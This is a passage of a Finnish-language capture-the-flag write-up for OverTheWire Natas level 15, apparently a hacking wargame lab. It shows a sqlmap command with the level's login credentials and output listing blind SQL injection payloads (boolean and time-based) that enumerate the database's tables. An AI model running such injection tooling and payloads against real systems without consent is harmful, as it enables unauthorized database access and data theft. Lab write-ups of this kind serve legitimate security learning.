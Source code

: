 
# Natas 15 - miten oltais virallisesti menty? - 1

🔍 Tietokannan taulut
🔍 Sarakkeet halutusta taulusta
📥 Data sarakkeista

## etsitään taulu(t) tietokannasta natas15

```
┌──(kali㉿kali)-[~]
└─$ sqlmap -u "http://natas15.natas.labs.overthewire.org/index.php?debug" \
--auth-type=Basic \
--auth-cred=natas15:SdqIqBsFcz3yotlNYErZSZwblkm0lrvx \
--data="username=natas16" \
--string="This user exists" \
--level=5 --risk=3 \
--tables -D natas15
        ___
       __H__
 ___ ___[)]_____ ___ ___  {1.8.5#stable}
|_ -| . [(]     | .'| . |
|___|_  [(]_|_|_|__,|  _|
      |_|V...       |_|   https://sqlmap.org

[!] legal disclaimer: Usage of sqlmap for attacking targets without prior mutual consent is illegal. It is the end user's responsibility to obey all applicable local, state and federal laws. Developers assume no liability and are not responsible for any misuse or damage caused by this program

[*] starting @ 12:57:08 /2025-05-18/

[12:57:09] [INFO] resuming back-end DBMS 'mysql' 
[12:57:09] [INFO] testing connection to the target URL
[12:57:10] [INFO] testing if the provided string is within the target URL page content
sqlmap resumed the following injection point(s) from stored session:
---
Parameter: username (POST)
    Type: boolean-based blind
    Title: AND boolean-based blind - WHERE or HAVING clause
    Payload: username=natas16" AND 1660=1660-- PPEC

    Type: time-based blind
    Title: MySQL >= 5.0.12 AND time-based blind (query SLEEP)
    Payload: username=natas16" AND (SELECT 2128 FROM (SELECT(SLEEP(5)))AGpI)-- cjDo
---
[12:57:10] [INFO] the back-end DBMS is MySQL
web server operating system: Linux Ubuntu
web application technology: Apache 2.4.58
back-end DBMS: MySQL < 5.0.12
[12:57:10] [INFO] fetching tables for database: 'natas15'
[12:57:10] [INFO] fetching number of tables for database 'natas15'
[12:57:10] [WARNING] running in a single-thread mode. Please consider usage of option '--threads' for faster data retrieval
[12:57:10] [INFO] retrieved: 
[12:57:11] [WARNING] reflective value(s) found and filtering out
1
[12:57:13] [INFO] retrieved: users
Database: natas15
[1 table]
+-------+
| users |
+-------+

```